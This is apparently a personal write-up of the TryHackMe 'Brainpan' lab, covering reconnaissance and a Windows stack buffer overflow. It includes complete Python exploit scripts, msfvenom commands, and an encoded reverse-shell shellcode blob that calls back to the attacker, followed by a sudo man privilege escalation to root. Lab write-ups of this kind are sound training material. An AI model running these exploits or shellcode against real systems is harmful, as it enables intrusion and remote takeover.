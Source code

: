 ```yaml
---
layout: post
title: Box - Brainpan1
published: true
---
```


Reverse engineer a Windows executable, find a buffer overflow and exploit it on a Linux machine.

[https://tryhackme.com/room/brainpan](https://tryhackme.com/room/brainpan)

![](/assets/brainpan01.jpg)

* * *

## Task 1 - Deploy and compromise the machine 

> Brainpan is perfect for OSCP practice and has been highly recommended to complete before the exam. Exploit a buffer overflow vulnerability by analyzing a Windows executable on a Linux machine. If you get stuck on this machine, don't give up (or look at writeups), just try harder. 

##  Nmap Scan

| PORT | STATE | SERVICE | REASON |
|------|-------|---------|--------|
| 9999/tcp | open | abyss | syn-ack ttl 61 |
| 10000/tcp | open | snet-sensor-mgmt SimpleHTTPServer 0.6 (Python 2.7.3) | syn-ack ttl 61 |

* * * 

##  Port 9999

- brainpan program needs password to continue can connect to this with netcat

* * * 

##  Port 10000

- SimpleHTTPServer 0.6 (Python 2.7.3)
- ``gobuster dir -u http://10.10.100.24:10000/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x html,php,txt --no-error -t 100``
- in /bin we find brainpan.exe

* * * 

##  Buffer Overflow

- Open brainpan.exe in immunity and set working folder
- ``!mona config -set workingfolder c:\mona\%p``
- We can send through 5000 a's with our a.py ``print("A" *5000)``
- We have an EBP and EIP overwrite so we should be able to overflow the buffer and and ECX Shitstorm!?

![](/assets/brainpan02.png)

- Finding the offset
- ``msf-pattern_create -l 5000`` and send and note the EIP "35724134"

![](/assets/brainpan03.png)

- ``msf-pattern_offset -l 5000 -q 35724134``
- we have an exact match at offset 524
- Now we can edit our code to send payloads so we can find badchars.

```python
import socket
import sys

offset = 524
payload = b"A" * offset + b"B" * 4

try:
      print("Sending Payload...")
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('192.168.0.24',9999))
      s.send(payload + b'\r\n')
      print("Payload sent...")
      s.close()

except:
      print("Cannot connect to the server")
      sys.exit()
```

- we control the EIP as its overwritten with our B's 42424242
- now we can find the badchars
- create bytearray in immunity ``!mona bytearray -b "\x00"`` and update our code with badchars variable

```shell
import socket
import sys

offset = 524
payload = b"A" * offset + b"B" * 4
badchars = (
  b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

try:
      print("Sending Payload...")
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('192.168.0.24',9999))
      s.send(payload + badchars + b'\r\n')
      print("Payload sent...")
      s.close()

except:
      print("Cannot connect to the server")
      sys.exit()
```

- restart brainpan in immunity and run exploit again and note the address that ESP registers
- **0022F930**
- run memory comparison in mona ``!mona compare -f C:\mona\brainpan\bytearray.bin -a 0022F930``
- we dont seen to have any badchars the shellcode returns Unmodified...

- try to find jump point with our badchars
- ``!mona jmp -r esp -cpb "\x00``

![](/assets/brainpan04.png)

- 311712F3 Jump Point
- Convert to little endian ``\xf3\x12\x17\x31``
- Generate shellcode with badchars... since this is a linux machine try linux shellcode? and try on target?
- ``msfvenom -p windows/shell_reverse_tcp LHOST=10.x.x.x LPORT=4444 EXITFUNC=thread -b "\x00" -f c``
- update target IP and little endian and shellcode and lets see what happens

```python
import socket
import sys

offset = 524
payload = b"A" * offset + b"\xf3\x12\x17\x31" + b"\x90" * 32
shellcode = (b"\xb8\xea\xb3\xa8\x25\xdb\xd9\xd9\x74\x24\xf4\x5a\x29\xc9\xb1"
b"\x52\x83\xea\xfc\x31\x42\x0e\x03\xa8\xbd\x4a\xd0\xd0\x2a\x08"
b"\x1b\x28\xab\x6d\x95\xcd\x9a\xad\xc1\x86\x8d\x1d\x81\xca\x21"
b"\xd5\xc7\xfe\xb2\x9b\xcf\xf1\x73\x11\x36\x3c\x83\x0a\x0a\x5f"
b"\x07\x51\x5f\xbf\x36\x9a\x92\xbe\x7f\xc7\x5f\x92\x28\x83\xf2"
b"\x02\x5c\xd9\xce\xa9\x2e\xcf\x56\x4e\xe6\xee\x77\xc1\x7c\xa9"
b"\x57\xe0\x51\xc1\xd1\xfa\xb6\xec\xa8\x71\x0c\x9a\x2a\x53\x5c"
b"\x63\x80\x9a\x50\x96\xd8\xdb\x57\x49\xaf\x15\xa4\xf4\xa8\xe2"
b"\xd6\x22\x3c\xf0\x71\xa0\xe6\xdc\x80\x65\x70\x97\x8f\xc2\xf6"
b"\xff\x93\xd5\xdb\x74\xaf\x5e\xda\x5a\x39\x24\xf9\x7e\x61\xfe"
b"\x60\x27\xcf\x51\x9c\x37\xb0\x0e\x38\x3c\x5d\x5a\x31\x1f\x0a"
b"\xaf\x78\x9f\xca\xa7\x0b\xec\xf8\x68\xa0\x7a\xb1\xe1\x6e\x7d"
b"\xb6\xdb\xd7\x11\x49\xe4\x27\x38\x8e\xb0\x77\x52\x27\xb9\x13"
b"\xa2\xc8\x6c\xb3\xf2\x66\xdf\x74\xa2\xc6\x8f\x1c\xa8\xc8\xf0"
b"\x3d\xd3\x02\x99\xd4\x2e\xc5\xac\x2a\x4f\xf4\xd9\x28\xaf\xe7"
b"\x45\xa4\x49\x6d\x66\xe0\xc2\x1a\x1f\xa9\x98\xbb\xe0\x67\xe5"
b"\xfc\x6b\x84\x1a\xb2\x9b\xe1\x08\x23\x6c\xbc\x72\xe2\x73\x6a"
b"\x1a\x68\xe1\xf1\xda\xe7\x1a\xae\x8d\xa0\xed\xa7\x5b\x5d\x57"
b"\x1e\x79\x9c\x01\x59\x39\x7b\xf2\x64\xc0\x0e\x4e\x43\xd2\xd6"
b"\x4f\xcf\x86\x86\x19\x99\x70\x61\xf0\x6b\x2a\x3b\xaf\x25\xba"
b"\xba\x83\xf5\xbc\xc2\xc9\x83\x20\x72\xa4\xd5\x5f\xbb\x20\xd2"
b"\x18\xa1\xd0\x1d\xf3\x61\xf0\xff\xd1\x9f\x99\x59\xb0\x1d\xc4"
b"\x59\x6f\x61\xf1\xd9\x85\x1a\x06\xc1\xec\x1f\x42\x45\x1d\x52"
b"\xdb\x20\x21\xc1\xdc\x60")

try:
      print("Sending Payload...")
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('10.10.77.70',9999))
      s.send(payload + shellcode + b'\r\n')
      print("Payload sent...")
      s.close()

except:
      print("Cannot connect to the server")
      sys.exit()
```

* * * 

##   Answer the questions below

**Gain initial access**

![](/assets/brainpan05.png) 

**Escalate your privileges to root.**

- generate new linux shellcode and send
- ``msfvenom -p linux/x86/shell/reverse_tcp LHOST=10.x.x.x LPORT=9999 -f c -a x86 --platform linux -b "\x00"``
- upgrade shell 

```shell
python -c 'import pty;pty.spawn("/bin/bash")' 
export TERM=xterm 
```

- sudo -l gives us ``/home/anansi/bin/anansi_util`` which lets us run man as sudo
- https://gtfobins.github.io/gtfobins/man/#sudo
- break out with a root shell!

![](/assets/brainpan07.png)

* * * 